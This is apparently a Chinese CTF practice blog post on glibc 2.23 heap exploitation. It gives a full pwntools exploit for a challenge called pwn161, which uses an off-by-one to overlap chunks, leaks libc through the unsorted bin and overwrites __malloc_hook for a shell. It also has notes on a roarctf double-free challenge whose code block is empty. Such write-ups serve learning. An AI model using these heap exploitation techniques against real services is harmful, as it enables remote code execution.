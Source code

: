 ```yaml
---
title: 刷题 heap
date: 2025-3-13 00:00:00 +0800
categories: [Blog, pwn]
tags: [pwn]
---
```


### pwn161

glibc 2.23

通过代码审计发现edit函数中当输入size - chunk_size = 10时，可以触发offbyone漏洞多读入1字节。

通过off by one，可以造成堆块重叠，进而可以打unsorted bin leak泄露malloc_hook地址 & libc基址

后续打fast bin attack可以劫持malloc hook

```python
import LibcSearcher
from pwn import *
from LibcSearcher import *
context(arch='amd64', os='linux',log_level='debug')

local = 0
if local == 0:
    io = remote("pwn.challenge.ctf.show",28259)
else:
    io = gdb.debug('./pwn', 'b *$rebase(0xc5e)')

elf = ELF('./pwn')

libc = ELF('/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc-2.23.so')

def add(size):
    io.sendlineafter("Choice",b'1')
    io.sendlineafter("size",str(size))

def edit(index, size, content):
    io.sendlineafter("Choice",b'2')
    io.sendlineafter("index",str(index))
    io.sendlineafter("size",str(size))
    io.sendlineafter("content",content)

def free(index):
    io.sendlineafter("Choice",b'3')
    io.sendlineafter("index",str(index))

def show(index):
    io.sendlineafter("Choice",b'4')
    io.sendlineafter("index",str(index))

add(0x18) #0
add(0x10) #1
add(0x100) #2
add(0x10) #3 防止被合并
edit(0, 0x18+10, cyclic(0x18) + b'\x51') #此时chunk1 size = 0x51
edit(2, 0x30,cyclic(0x20) + p64(0) + p64(0x21))
free(1) #chunk1 进入fast bin free时会对next chunk的size位检查
add(0x40) #申请到chunk1
edit(1, 0x20, b'\x00'*0x10 + p64(0) + p64(0x111))
free(2)
show(1)
io.recvuntil(b'content: ')
io.recv(32)
unsorted_bin = u64(io.recv(6).ljust(8, b'\x00'))
malloc_hook = unsorted_bin - 0x68
libc_base = malloc_hook - libc.sym['__malloc_hook']
ogg = libc_base + 0x4527a
print(hex(unsorted_bin))

add(0x100) #申请到chunk2
payload = cyclic(0x60) + p64(0) + p64(0x71)
edit(2, len(payload), payload) #为fastbin attack做准备 进入fast bin free时会对next chunk的size位检查
edit(1, 0x20,b'\x00'*0x10 + p64(0) + p64(0x71))
free(2)
payload = cyclic(0x10) + p64(0) + p64(0x71) + p64(malloc_hook-0x23) #fd
edit(1,len(payload),payload)
add(0x60) #2
pause()
add(0x60) #申请到malloc_hook处 4
payload = cyclic(0x13) + p64(ogg)
edit(4, len(payload), payload)
add(0x10)
io.interactive()
```

- 堆块重叠构造fake chunk时，对其进行free进入fastbin时会check next chunk的size位进行检查，所以需要注意构造
- 申请fastbin中的chunk时也会对chunk size进行check，所以一定要符合对应fast bin大小
- b *$rebase(offset) 可以在开启PIE偏移情况下打断点
- 进行堆块重叠操作之前注意规避consolidate(添加gap)
- calloc会清空chunk内容，其底层依旧是调用malloc

### roarctf 2019 easyheap (double free/house of spirit)

glibc 2.23

没有edit功能造成了很大的不便

实现double free的精髓在于通过切割unsorted bin中的chunk进入fast bin中

```python

```

- 完成double free的适用情况： fast bin中有两个不同chunk，且其中一个存在UAF
- 申请到malloc hook - 0x23是因为该处刚好有0x7f/0x7a作为首地址。经过观察与测设，该地址附近没有以0x6*、0x5*等其他首地址作为size利用的可能，所以当使用fast bin attack劫持malloc hook时，一定要注意bin大小为0x60，才能成功申请
- 在做这道题踩坑的同时发现，当没有edit功能却能够在malloc时修改chunk的情况下，通过对fast bin中fd修改为环，自身指向自身能够做到用malloc替代edit，做法就是一直malloc一直edit

